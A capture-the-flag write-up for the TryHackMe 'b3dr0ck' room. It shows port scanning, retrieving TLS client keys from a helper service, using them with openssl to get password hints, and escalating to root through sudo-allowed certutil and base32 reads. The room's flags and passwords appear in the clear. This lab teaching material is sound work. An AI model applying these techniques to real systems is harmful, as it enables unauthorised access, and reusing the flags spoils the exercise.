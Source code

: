<hr>
<h2> Question 1: flag 1</h2>
I already got some hints from the details in the tryhackme page<br>

```
He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
```

So lets start, nmap scan as usual recon:
```
$ nmap 10.10.246.196
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:17 EDT
Nmap scan report for 10.10.246.196
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Trying Port 9009 in broweser, it returned 

```Unsupported or unrecognized SSL message```

<br>

So as i know if i try to load up the web server on port 80, <br>
it will redirect me to port 4040 <br>
On the website Barney doesn't seems to know what he is doing, and he also mentions
that: **"Looks like it started something else, but I'm not sure how to turn it off!
        He said it was from the toilet and OVER 9000!"**<br>


So there are more ports open than what i currently have<br>
Running nmap again reveals another port that i didnt knew about, **54321**
```
$ nmap 10.10.246.196 -p-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:21 EDT
Nmap scan report for 10.10.246.196
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds

```
Trying port **54321** returned ```Error: 'undefined' is not authorized for access.```
<br>
<br>
After some messing around, turns out i can connect to port 9009 via netcat:
```
$ ncat 10.10.246.196 9009 


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? 
```
Im looking for flags and passwords!
```
Sorry, unrecognized request: 'password'
You use this service to recover your client certificate and private key
```
The output message says i can recover certificate and a private key
```
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----


What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----

```
Okay, i can use this key and certificate via openssl like this(guessing port 54321 because the 9009 didn't worked):
```
openssl s_client -connect 10.10.246.196:54321 -key id_rsa -cert certificate 
```
And after connection, i was able to get Barney's password:
```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> 
Unrecognized command: ''
This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```
I have no other choice than trying this password via ssh
```
$ ssh barney@10.10.246.196
[...]
barney@10.10.246.196's password: 
barney@ip-10-10-246-196:~$ 
```
Good, now i have the first flag!
```
barney@ip-10-10-246-196:~$ cat barney.txt
THM{f05780f08f0eb1de65023069d0e4c90c}
```
<hr>
<h2> Question 2: Fred's password</h2>
Following the tasks, i have to get access to freds account, and from fred's account, to root!

Executing sudo -l command, returned that i can run certutil as root without password:
```
barney@ip-10-10-246-196:~$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-10-246-196:
    (ALL : ALL) /usr/bin/certutil
```
Checking the tool usage, i can generate new keypair for users
```
barney@ip-10-10-246-196:~$ certutil
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
This gave me an idea to probably do the same as with Barney's account, creating a TLS connection using the two keys?
```
barney@ip-10-10-246-196:~$ sudo certutil fred fred
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----
```
Saving the output to files and trying the connection:
```
$ openssl s_client -connect 10.10.246.196:54321 -cert certificate -key id_rsa
Connecting to 10.10.246.196
CONNECTED(00000003)
[...]
read R BLOCK
Welcome: 'fred' is authorized.
```
And typing help again, it will show freds account password:
```
b3dr0ck> help
Password hint: **YabbaDabbaD0000!** (user = 'fred')
```
We got Fred's account password, and also the answer to question 2!
```
$ ssh fred@10.10.246.196
fred@10.10.246.196's password: 
fred@ip-10-10-246-196:~$ 
```
<hr>
<h2> Question 3: flag 2</h2>

And now i can easly get the second flag too!
```
fred@ip-10-10-246-196:~$ cat fred.txt
THM{08da34e619da839b154521da7323559d}
```
<hr>
<h2> Question 4: flag 3(root)</h2>
Trying again some basic PE mehtods, executing sudo -l command returns that i can run base64 and base32 as root for a specific file

```
fred@ip-10-10-246-196:~$ sudo -l
Matching Defaults entries for fred on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-10-246-196:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
Both command will read the file and encodes it as base64/32<br>
Probably it has the password encoded as base64 or base32<br>
```
fred@ip-10-10-246-196:~$ sudo /usr/bin/base32 /root/pass.txt
JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
```
Trying with CyberChef, i decoded from base32 to text, but the output looks like its still encoded
<img src = "cyberchef1.png">
<br>
Its probably double, or triple encoded by base64/32
<br><br>
After trying for a while, it turns out we can decode it two times with base32 and once with base64, this finally gave me an MD5 hash<br>
```Base32 -> Base32 -> Base64 -> MD5```
<img src = "cyberchef2.png">
<br><br>
Lets try cracking the MD5 hash with CrackStation!
<img src = "crackstation.png">
<br>
Successful! Lets hope this is the root password

```
fred@ip-10-10-246-196:~$ su - root
Password: 
root@ip-10-10-246-196:~# 
```
Victory! Lets read the root.txt!
```
root@ip-10-10-246-196:~# cat /root/root.txt
THM{de4043c009214b56279982bf10a661b7}
```
